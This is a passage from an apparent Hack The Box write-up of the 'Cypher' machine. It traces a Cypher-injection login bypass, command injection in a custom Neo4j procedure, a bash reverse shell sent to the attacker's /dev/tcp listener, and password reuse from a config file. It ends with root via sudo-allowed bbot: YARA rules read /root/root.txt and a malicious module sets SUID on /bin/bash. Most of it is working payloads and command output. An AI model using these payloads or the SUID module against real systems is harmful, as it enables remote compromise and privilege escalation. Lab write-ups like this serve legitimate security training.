[20:50:50] 307 -    0B  - /demo  ->  /login                                 
[20:50:50] 404 -   22B  - /demo.php                                         
[20:50:50] 404 -   22B  - /demo.aspx
[20:50:50] 404 -   22B  - /demo/ojspext/events/globals.jsa                  
[20:50:50] 404 -   22B  - /demoadmin                                        
[20:50:50] 404 -   22B  - /demos/
[20:50:50] 307 -    0B  - /demo/  ->  http://cypher.htb/api/demo            
[20:50:50] 404 -   22B  - /demo.js
[20:50:51] 404 -   22B  - /demo/sql/index.jsp                               
[20:50:51] 404 -   22B  - /demo.jsp                                         
[20:51:02] 200 -    4KB - /login                                            
[20:51:04] 200 -    4KB - /login.html                                       
[20:51:22] 301 -  178B  - /testing  ->  http://cypher.htb/testing/          
                                                                             
Task Completed
```

- [http://cypher.htb/testing/](http://cypher.htb/testing/)



- [https://github.com/neo4j/apoc](https://github.com/neo4j/apoc)

## Investigating the JAR File

We downloaded `custom-apoc-extension-1.0-SNAPSHOT.jar` and extracted it in order to have a look at it using `jadx-gui`.

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Cypher/files]
└─$ wget http://cypher.htb/testing/custom-apoc-extension-1.0-SNAPSHOT.jar
--2025-03-01 20:55:45--  http://cypher.htb/testing/custom-apoc-extension-1.0-SNAPSHOT.jar
Resolving cypher.htb (cypher.htb)... 10.129.52.34
Connecting to cypher.htb (cypher.htb)|10.129.52.34|:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 6556 (6.4K) [application/java-archive]
Saving to: ‘custom-apoc-extension-1.0-SNAPSHOT.jar’

custom-apoc-extension-1.0-SNAPSHOT.jar                     100%[========================================================================================================================================>]   6.40K  --.-KB/s    in 0s      

2025-03-01 20:55:45 (519 MB/s) - ‘custom-apoc-extension-1.0-SNAPSHOT.jar’ saved [6556/6556]
```

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Cypher/files]
└─$ unzip custom-apoc-extension-1.0-SNAPSHOT.jar -d extracted_jar/ 
Archive:  custom-apoc-extension-1.0-SNAPSHOT.jar
   creating: extracted_jar/META-INF/
  inflating: extracted_jar/META-INF/MANIFEST.MF  
   creating: extracted_jar/com/
   creating: extracted_jar/com/cypher/
   creating: extracted_jar/com/cypher/neo4j/
   creating: extracted_jar/com/cypher/neo4j/apoc/
  inflating: extracted_jar/com/cypher/neo4j/apoc/CustomFunctions$StringOutput.class  
  inflating: extracted_jar/com/cypher/neo4j/apoc/HelloWorldProcedure.class  
  inflating: extracted_jar/com/cypher/neo4j/apoc/CustomFunctions.class  
  inflating: extracted_jar/com/cypher/neo4j/apoc/HelloWorldProcedure$HelloWorldOutput.class  
   creating: extracted_jar/META-INF/maven/
   creating: extracted_jar/META-INF/maven/com.cypher.neo4j/
   creating: extracted_jar/META-INF/maven/com.cypher.neo4j/custom-apoc-extension/
  inflating: extracted_jar/META-INF/maven/com.cypher.neo4j/custom-apoc-extension/pom.xml  
  inflating: extracted_jar/META-INF/maven/com.cypher.neo4j/custom-apoc-extension/pom.properties
```

```c
package com.cypher.neo4j.apoc;

import java.io.BufferedReader;
import java.io.InputStreamReader;
import java.util.Arrays;
import java.util.concurrent.TimeUnit;
import java.util.stream.Stream;
import org.neo4j.procedure.Description;
import org.neo4j.procedure.Mode;
import org.neo4j.procedure.Name;
import org.neo4j.procedure.Procedure;

public class CustomFunctions {
  @Procedure(name = "custom.getUrlStatusCode", mode = Mode.READ)
  @Description("Returns the HTTP status code for the given URL as a string")
  public Stream<StringOutput> getUrlStatusCode(@Name("url") String url) throws Exception {
    if (!url.toLowerCase().startsWith("http://") && !url.toLowerCase().startsWith("https://"))
      url = "https://" + url; 
    String[] command = { "/bin/sh", "-c", "curl -s -o /dev/null --connect-timeout 1 -w %{http_code} " + url };
    System.out.println("Command: " + Arrays.toString((Object[])command));
    Process process = Runtime.getRuntime().exec(command);
    BufferedReader inputReader = new BufferedReader(new InputStreamReader(process.getInputStream()));
    BufferedReader errorReader = new BufferedReader(new InputStreamReader(process.getErrorStream()));
    StringBuilder errorOutput = new StringBuilder();
    String line;
    while ((line = errorReader.readLine()) != null)
      errorOutput.append(line).append("\n"); 
    String statusCode = inputReader.readLine();
    System.out.println("Status code: " + statusCode);
    boolean exited = process.waitFor(10L, TimeUnit.SECONDS);
    if (!exited) {
      process.destroyForcibly();
      statusCode = "0";
      System.err.println("Process timed out after 10 seconds");
    } else {
      int exitCode = process.exitValue();
      if (exitCode != 0) {
        statusCode = "0";
        System.err.println("Process exited with code " + exitCode);
      } 
    } 
    if (errorOutput.length() > 0)
      System.err.println("Error output:\n" + errorOutput.toString()); 
    return Stream.of(new StringOutput(statusCode));
  }
  
  public static class StringOutput {
    public String statusCode;
    
    public StringOutput(String statusCode) {
      this.statusCode = statusCode;
    }
  }
}
```

The class `CustomFunction` was vulnerable to execute whatever `user input` was provided and therefore allowed us to gain `Remote Code Execution (RCE)` through it.



```c
String[] command = { "/bin/sh", "-c", "curl -s -o /dev/null --connect-timeout 1 -w %{http_code} " + url };
```

## Foothold
### Back to Cypher Injection

We went back to `Cypher Injection` and used the `procedure name` (`custom.getUrlStatusCode`) we found to test if our assumption was correct.

```c
{"username":"' OR 1=1 CALL custom.getUrlStatusCode('http://10.10.14.125') YIELD statusCode RETURN statusCode  //","password":"user"}
```

```c
10.129.52.34 - - [01/Mar/2025 21:06:14] "GET / HTTP/1.1" 200 -
```

After we received a callback, we but in a `reverse shell payload` and immediately received a shell as `neo4j`.

```c
{"username":"' OR 1=1 WITH 1 as a CALL custom.getUrlStatusCode(\"http://10.10.14.96; bash -c 'bash -i >& /dev/tcp/10.10.14.96/4444 0>&1' #\") YIELD statusCode RETURN statusCode //","password":"user"}
```

```c
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.10.14.96] from (UNKNOWN) [10.129.52.34] 54812
bash: cannot set terminal process group (1400): Inappropriate ioctl for device
bash: no job control in this shell
neo4j@cypher:/$
```

We upgraded our shell and moved on.

```c
neo4j@cypher:/$ python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
neo4j@cypher:/$ ^Z
zsh: suspended  nc -lnvp 4444
                                                                                                                                                                                                                                            
┌──(kali㉿kali)-[~]
└─$ stty raw -echo;fg 
[1]  + continued  nc -lnvp 4444

neo4j@cypher:/$ 
neo4j@cypher:/$ export XTERM=xterm
neo4j@cypher:/$
```

## Enumeration

The basic `enumeration` we performed showed us another user called `graphasm` which indicated that we needed to `escalate our privileges` once more in order to aim for `root`.

```c
neo4j@cypher:~$ id
uid=110(neo4j) gid=111(neo4j) groups=111(neo4j)
```

```c
neo4j@cypher:~$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
systemd-timesync:x:997:997:systemd Time Synchronization:/:/usr/sbin/nologin
dhcpcd:x:100:65534:DHCP Client Daemon,,,:/usr/lib/dhcpcd:/bin/false
messagebus:x:101:102::/nonexistent:/usr/sbin/nologin
systemd-resolve:x:992:992:systemd Resolver:/:/usr/sbin/nologin
pollinate:x:102:1::/var/cache/pollinate:/bin/false
polkitd:x:991:991:User for polkitd:/:/usr/sbin/nologin
syslog:x:103:104::/nonexistent:/usr/sbin/nologin
uuidd:x:104:105::/run/uuidd:/usr/sbin/nologin
tcpdump:x:105:107::/nonexistent:/usr/sbin/nologin
tss:x:106:108:TPM software stack,,,:/var/lib/tpm:/bin/false
landscape:x:107:109::/var/lib/landscape:/usr/sbin/nologin
fwupd-refresh:x:989:989:Firmware update daemon:/var/lib/fwupd:/usr/sbin/nologin
usbmux:x:108:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
sshd:x:109:65534::/run/sshd:/usr/sbin/nologin
graphasm:x:1000:1000:graphasm:/home/graphasm:/bin/bash
neo4j:x:110:111:neo4j,,,:/var/lib/neo4j:/bin/bash
_laurel:x:999:987::/var/log/laurel:/bin/false
```

| Username |
| -------- |
| graphasm |

## Privilege Escalation to graphasm

### Password Reuse

While navigating through the common directories looking for `credentials` we found `bbot_present.yml` inside the `home directory` of `graphasm` which was readable to us and contained a `username` and `password`.

```c
neo4j@cypher:/home/graphasm$ cat bbot_preset.yml 
targets:
  - ecorp.htb

output_dir: /home/graphasm/bbot_scans

config:
  modules:
    neo4j:
      username: neo4j
      password: cU4btyib.20xtCMCXkBmerhK
```

| Password                 |
| ------------------------ |
| cU4btyib.20xtCMCXkBmerhK |

We tried to `reuse` the `password` on the user `graphasm` and got lucky.

```c
neo4j@cypher:/home/graphasm$ su graphasm
Password: 
graphasm@cypher:~$
```

## user.txt

Now we were able to grab the `user.txt`.

```c
graphasm@cypher:~$ cat user.txt
470548cab9af8cd8a93c92817093f1ba
```

## Pivoting

The new user had no specific group memberships but was able to execute `/usr/local/bin/bbot` using `sudo`.

```c
graphasm@cypher:~$ id
uid=1000(graphasm) gid=1000(graphasm) groups=1000(graphasm)
```

```c
graphasm@cypher:~$ sudo -l
Matching Defaults entries for graphasm on cypher:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User graphasm may run the following commands on cypher:
    (ALL) NOPASSWD: /usr/local/bin/bbot
```

## Privilege Escalation to root

### Abusing BBOT

The application `BBOT` is very well known when it comes to `Reconnaissance` and especially `OSINT`.

- [https://github.com/blacklanternsecurity/bbot](https://github.com/blacklanternsecurity/bbot)

First we looked at the available `options` to see what could provide is `arbitrary code execution`.

```c
graphasm@cypher:~$ sudo /usr/local/bin/bbot

  ______  _____   ____ _______
 |  ___ \|  __ \ / __ \__   __|
 | |___) | |__) | |  | | | |
 |  ___ <|  __ <| |  | | | |
 | |___) | |__) | |__| | | |
 |______/|_____/ \____/  |_|
 BIGHUGE BLS OSINT TOOL v2.1.0.4939rc

www.blacklanternsecurity.com/bbot

usage: bbot [-h] [-t TARGET [TARGET ...]] [-w WHITELIST [WHITELIST ...]]
            [-b BLACKLIST [BLACKLIST ...]] [--strict-scope] [-p [PRESET ...]]
            [-c [CONFIG ...]] [-lp] [-m MODULE [MODULE ...]] [-l] [-lmo]
            [-em MODULE [MODULE ...]] [-f FLAG [FLAG ...]] [-lf]
            [-rf FLAG [FLAG ...]] [-ef FLAG [FLAG ...]] [--allow-deadly]
            [-n SCAN_NAME] [-v] [-d] [-s] [--force] [-y] [--dry-run]
            [--current-preset] [--current-preset-full] [-o DIR]
            [-om MODULE [MODULE ...]] [--json] [--brief]
            [--event-types EVENT_TYPES [EVENT_TYPES ...]]
            [--no-deps | --force-deps | --retry-deps | --ignore-failed-deps | --install-all-deps]
            [--version] [-H CUSTOM_HEADERS [CUSTOM_HEADERS ...]]
            [--custom-yara-rules CUSTOM_YARA_RULES]
```

After a little `testing process` we found a working combination of the relevant flags to read each file on the system and provide the output with the `debug option`.

```c
graphasm@cypher:~$ sudo /usr/local/bin/bbot -c 'id'
```

```c
graphasm@cypher:~$ sudo /usr/local/bin/bbot -c -d
```

```c
graphasm@cypher:~$ sudo /usr/local/bin/bbot -cy /etc/shadow
```

```c
graphasm@cypher:~$ sudo /usr/local/bin/bbot -cy /etc/shadow -v
```

```c
graphasm@cypher:~$ sudo /usr/local/bin/bbot -cy /etc/shadow -d
```

Then we went straight for the `root.txt`.

```c
graphasm@cypher:~$ sudo /usr/local/bin/bbot -cy /root/root.txt -d   
  ______  _____   ____ _______
 |  ___ \|  __ \ / __ \__   __|
 | |___) | |__) | |  | | | |
 |  ___ <|  __ <| |  | | | |
 | |___) | |__) | |__| | | |
 |______/|_____/ \____/  |_|
 BIGHUGE BLS OSINT TOOL v2.1.0.4939rc

www.blacklanternsecurity.com/bbot

[DBUG] Preset bbot_cli_main: Adding module "json" of type "output"
[DBUG] Preset bbot_cli_main: Adding module "txt" of type "output"
[DBUG] Preset bbot_cli_main: Adding module "python" of type "output"
[DBUG] Preset bbot_cli_main: Adding module "csv" of type "output"
[DBUG] Preset bbot_cli_main: Adding module "stdout" of type "output"
[DBUG] Preset bbot_cli_main: Adding module "aggregate" of type "internal"
[DBUG] Preset bbot_cli_main: Adding module "dnsresolve" of type "internal"
[DBUG] Preset bbot_cli_main: Adding module "cloudcheck" of type "internal"
[DBUG] Preset bbot_cli_main: Adding module "excavate" of type "internal"
[DBUG] Preset bbot_cli_main: Adding module "speculate" of type "internal"
[VERB] 
[VERB] ### MODULES ENABLED ###
[VERB] 
[VERB] +------------+----------+-----------------+-------------------------------+---------------+----------------------+--------------------+
[VERB] | Module     | Type     | Needs API Key   | Description                   | Flags         | Consumed Events      | Produced Events    |
[VERB] +============+==========+=================+===============================+===============+======================+====================+
[VERB] | csv        | output   | No              | Output to CSV                 |               | *                    |                    |
[VERB] +------------+----------+-----------------+-------------------------------+---------------+----------------------+--------------------+
[VERB] | json       | output   | No              | Output to Newline-Delimited   |               | *                    |                    |
[VERB] |            |          |                 | JSON (NDJSON)                 |               |                      |                    |
[VERB] +------------+----------+-----------------+-------------------------------+---------------+----------------------+--------------------+
[VERB] | python     | output   | No              | Output via Python API         |               | *                    |                    |
[VERB] +------------+----------+-----------------+-------------------------------+---------------+----------------------+--------------------+
[VERB] | stdout     | output   | No              | Output to text                |               | *                    |                    |
[VERB] +------------+----------+-----------------+-------------------------------+---------------+----------------------+--------------------+
[VERB] | txt        | output   | No              | Output to text                |               | *                    |                    |
[VERB] +------------+----------+-----------------+-------------------------------+---------------+----------------------+--------------------+
[VERB] | cloudcheck | internal | No              | Tag events by cloud provider, |               | *                    |                    |
[VERB] |            |          |                 | identify cloud resources like |               |                      |                    |
[VERB] |            |          |                 | storage buckets               |               |                      |                    |
[VERB] +------------+----------+-----------------+-------------------------------+---------------+----------------------+--------------------+
[VERB] | dnsresolve | internal | No              |                               |               | *                    |                    |
[VERB] +------------+----------+-----------------+-------------------------------+---------------+----------------------+--------------------+
[VERB] | aggregate  | internal | No              | Summarize statistics at the   | passive, safe |                      |                    |
[VERB] |            |          |                 | end of a scan                 |               |                      |                    |
[VERB] +------------+----------+-----------------+-------------------------------+---------------+----------------------+--------------------+
[VERB] | excavate   | internal | No              | Passively extract juicy       | passive       | HTTP_RESPONSE,       | URL_UNVERIFIED,    |
[VERB] |            |          |                 | tidbits from scan data        |               | RAW_TEXT             | WEB_PARAMETER      |
[VERB] +------------+----------+-----------------+-------------------------------+---------------+----------------------+--------------------+
[VERB] | speculate  | internal | No              | Derive certain event types    | passive       | AZURE_TENANT,        | DNS_NAME, FINDING, |
[VERB] |            |          |                 | from others by common sense   |               | DNS_NAME,            | IP_ADDRESS,        |
[VERB] |            |          |                 |                               |               | DNS_NAME_UNRESOLVED, | OPEN_TCP_PORT,     |
[VERB] |            |          |                 |                               |               | HTTP_RESPONSE,       | ORG_STUB           |
[VERB] |            |          |                 |                               |               | IP_ADDRESS,          |                    |
[VERB] |            |          |                 |                               |               | IP_RANGE, SOCIAL,    |                    |
[VERB] |            |          |                 |                               |               | STORAGE_BUCKET, URL, |                    |
[VERB] |            |          |                 |                               |               | URL_UNVERIFIED,      |                    |
[VERB] |            |          |                 |                               |               | USERNAME             |                    |
[VERB] +------------+----------+-----------------+-------------------------------+---------------+----------------------+--------------------+
[VERB] Loading word cloud from /root/.bbot/scans/fiendish_ciri/wordcloud.tsv
[DBUG] Failed to load word cloud from /root/.bbot/scans/fiendish_ciri/wordcloud.tsv: [Errno 2] No such file or directory: '/root/.bbot/scans/fiendish_ciri/wordcloud.tsv'
[INFO] Scan with 0 modules seeded with 0 targets (0 in whitelist)
[WARN] No scan modules to load
[DBUG] Installing cloudcheck - Preloaded Deps {'modules': [], 'pip': [], 'pip_constraints': [], 'shell': [], 'apt': [], 'ansible': [], 'common': []}
[DBUG] No dependency work to do for module "cloudcheck"
[DBUG] Installing json - Preloaded Deps {'modules': [], 'pip': [], 'pip_constraints': [], 'shell': [], 'apt': [], 'ansible': [], 'common': []}
[DBUG] No dependency work to do for module "json"
[DBUG] Installing dnsresolve - Preloaded Deps {'modules': [], 'pip': [], 'pip_constraints': [], 'shell': [], 'apt': [], 'ansible': [], 'common': []}
[DBUG] No dependency work to do for module "dnsresolve"
[DBUG] Installing txt - Preloaded Deps {'modules': [], 'pip': [], 'pip_constraints': [], 'shell': [], 'apt': [], 'ansible': [], 'common': []}
[DBUG] No dependency work to do for module "txt"
[DBUG] Installing speculate - Preloaded Deps {'modules': [], 'pip': [], 'pip_constraints': [], 'shell': [], 'apt': [], 'ansible': [], 'common': []}
[DBUG] No dependency work to do for module "speculate"
[DBUG] Installing aggregate - Preloaded Deps {'modules': [], 'pip': [], 'pip_constraints': [], 'shell': [], 'apt': [], 'ansible': [], 'common': []}
[DBUG] No dependency work to do for module "aggregate"
[DBUG] Installing excavate - Preloaded Deps {'modules': [], 'pip': [], 'pip_constraints': [], 'shell': [], 'apt': [], 'ansible': [], 'common': []}
[DBUG] No dependency work to do for module "excavate"
[DBUG] Installing python - Preloaded Deps {'modules': [], 'pip': [], 'pip_constraints': [], 'shell': [], 'apt': [], 'ansible': [], 'common': []}
[DBUG] No dependency work to do for module "python"
[DBUG] Installing csv - Preloaded Deps {'modules': [], 'pip': [], 'pip_constraints': [], 'shell': [], 'apt': [], 'ansible': [], 'common': []}
[DBUG] No dependency work to do for module "csv"
[DBUG] Installing stdout - Preloaded Deps {'modules': [], 'pip': [], 'pip_constraints': [], 'shell': [], 'apt': [], 'ansible': [], 'common': []}
[DBUG] No dependency work to do for module "stdout"
[VERB] Loading 0 scan modules: 
[VERB] Loading 5 internal modules: aggregate,cloudcheck,dnsresolve,excavate,speculate
[VERB] Loaded module "aggregate"
[VERB] Loaded module "cloudcheck"
[VERB] Loaded module "dnsresolve"
[VERB] Loaded module "excavate"
[VERB] Loaded module "speculate"
[INFO] Loaded 5/5 internal modules (aggregate,cloudcheck,dnsresolve,excavate,speculate)
[VERB] Loading 5 output modules: csv,json,python,stdout,txt
[VERB] Loaded module "csv"
[VERB] Loaded module "json"
[VERB] Loaded module "python"
[VERB] Loaded module "stdout"
[VERB] Loaded module "txt"
[INFO] Loaded 5/5 output modules, (csv,json,python,stdout,txt)
[VERB] Setting up modules
[DBUG] _scan_ingress: Setting up module _scan_ingress
[DBUG] _scan_ingress: Finished setting up module _scan_ingress
[DBUG] dnsresolve: Setting up module dnsresolve
[DBUG] dnsresolve: Finished setting up module dnsresolve
[DBUG] aggregate: Setting up module aggregate
[DBUG] aggregate: Finished setting up module aggregate
[DBUG] cloudcheck: Setting up module cloudcheck
[DBUG] cloudcheck: Finished setting up module cloudcheck
[DBUG] internal.excavate: Setting up module excavate
[DBUG] internal.excavate: Including Submodule CSPExtractor
[DBUG] internal.excavate: Including Submodule EmailExtractor
[DBUG] internal.excavate: Including Submodule ErrorExtractor
[DBUG] internal.excavate: Including Submodule FunctionalityExtractor
[DBUG] internal.excavate: Including Submodule HostnameExtractor
[DBUG] internal.excavate: Including Submodule JWTExtractor
[DBUG] internal.excavate: Including Submodule NonHttpSchemeExtractor
[DBUG] internal.excavate: Including Submodule ParameterExtractor
[DBUG] internal.excavate: Parameter Extraction disabled because no modules consume WEB_PARAMETER events
[DBUG] internal.excavate: Including Submodule SerializationExtractor
[DBUG] internal.excavate: Including Submodule URLExtractor
[DBUG] internal.excavate: Successfully loaded custom yara rules file [/root/root.txt]
[DBUG] internal.excavate: Final combined yara rule contents: 62841143502024a307593cde4bdd4717

[DBUG] output.csv: Setting up module csv
[DBUG] output.csv: Finished setting up module csv
[DBUG] output.json: Setting up module json
[DBUG] output.json: Finished setting up module json
[DBUG] output.python: Setting up module python
[DBUG] output.python: Finished setting up module python
[DBUG] output.stdout: Setting up module stdout
[DBUG] output.stdout: Finished setting up module stdout
[DBUG] output.txt: Setting up module txt
[DBUG] output.txt: Finished setting up module txt
[DBUG] internal.speculate: Setting up module speculate
[INFO] internal.speculate: No portscanner enabled. Assuming open ports: 80, 443
[DBUG] internal.speculate: Finished setting up module speculate
[DBUG] _scan_egress: Setting up module _scan_egress
[DBUG] _scan_egress: Finished setting up module _scan_egress
[DBUG] Setup succeeded for aggregate (success)
[DBUG] Setup succeeded for speculate (success)
[DBUG] Setup succeeded for csv (success)
[DBUG] Setup succeeded for stdout (success)
[DBUG] Setup succeeded for _scan_ingress (success)
[DBUG] Setup succeeded for cloudcheck (success)
[DBUG] Setup succeeded for _scan_egress (success)
[DBUG] Setup succeeded for dnsresolve (success)
[DBUG] Setup succeeded for json (success)
[DBUG] Setup succeeded for txt (success)
[DBUG] Setup succeeded for python (success)
[INFO] internal.excavate: Compiling 10 YARA rules
[DBUG] internal.excavate: Finished setting up module excavate
[DBUG] Setup succeeded for excavate (success)
[DBUG] Setting intercept module dnsresolve._incoming_event_queue to previous intercept module _scan_ingress.outgoing_event_queue
[DBUG] Setting intercept module cloudcheck._incoming_event_queue to previous intercept module dnsresolve.outgoing_event_queue
[DBUG] Setting intercept module _scan_egress._incoming_event_queue to previous intercept module cloudcheck.outgoing_event_queue
[SUCC] Setup succeeded for 12/12 modules.
[TRCE] Command: /usr/local/bin/bbot -cy /root/root.txt -d
[SUCC] Scan ready. Press enter to execute fiendish_ciri
```

## root.txt

```c
62841143502024a307593cde4bdd4717
```

## Post Exploitation

Our man `Bushidosan` went the last mile for a session as `root`. For a `shell` as `root` we needed to specify the `module directory` in the `bbot_preset.yml`.

```c
graphasm@cypher:~$ cat bbot_preset.yml 
targets:
  - ecorp.htb
module_dirs:
  - /home/graphasm/modules
output_dir: /home/graphasm/bbot_scans

config:
  modules:
    neo4j:
      username: neo4j
      password: cU4btyib.20xtCMCXkBmerhK
```

Then we provided a `malicious module` to execute our code.

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Cypher/serve]
└─$ cat evil.py 
from bbot.modules.base import BaseModule
import asyncio

class evil(BaseModule):
    # one-time setup - runs at the beginning of the scan
    async def setup(self):
        cmd = "chmod 4777 /bin/bash"
        proc = await asyncio.create_subprocess_shell(
            cmd,
            stdout=asyncio.subprocess.PIPE,
            stderr=asyncio.subprocess.PIPE
        )
        stdout, stderr = await proc.communicate()

    async def handle_event(self, event):
        pass
```

```c
graphasm@cypher:~/modules$ ls -la
total 12
drwxrwxr-x 2 graphasm graphasm 4096 Mar  2 19:30 .
drwxr-xr-x 5 graphasm graphasm 4096 Mar  2 19:30 ..
-rw-rw-r-- 1 graphasm graphasm  419 Mar  2 19:16 evil.py
```

```c
graphasm@cypher:~$ sudo /usr/local/bin/bbot -p /home/graphasm/bbot_preset.yml -m evil --force -d
```

```c
graphasm@cypher:~$ ls -la /bin/bash
-rwsrwxrwx 1 root root 1446024 Mar 31  2024 /bin/bash
```

```c
graphasm@cypher:~$ /bin/bash -p
bash-5.2#
```
